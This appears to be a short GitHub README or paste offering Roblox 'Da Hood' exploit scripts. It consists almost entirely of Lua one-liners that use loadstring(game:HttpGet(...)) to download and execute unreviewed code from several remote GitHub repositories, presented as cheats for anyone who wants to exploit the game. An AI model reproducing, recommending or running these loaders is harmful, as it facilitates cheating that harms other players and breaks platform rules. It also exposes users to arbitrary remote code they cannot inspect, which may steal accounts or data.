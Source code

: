 hi this is roblox da hood scripts (if u want to exploit) 
loadstring(game:HttpGet('https://raw.githubusercontent.com/Scrvpter/Pluto/Lua/Loader.Lua', true))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/lerkermer/lua-projects/master/SwagModeV002"))()
_G.Toggles = "V" -- You can put any keybind
loadstring(game:HttpGet("https://raw.githubusercontent.com/NighterEpic/Faded/main/YesEpic", true))()
loadstring(game:HttpGet('https://raw.githubusercontent.com/SpaceYes/Lua/Main/DaHood.Lua'))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/CF-Trail/tzechco-PlsDonateAutofarmBackup/main/autofarm"))()
dx9 guy: loadstring(game:HttpGet('https://raw.githubusercontent.com/DX9user-renpy/DX9WARE/main/Private/UI/Lib/script.lua'))()
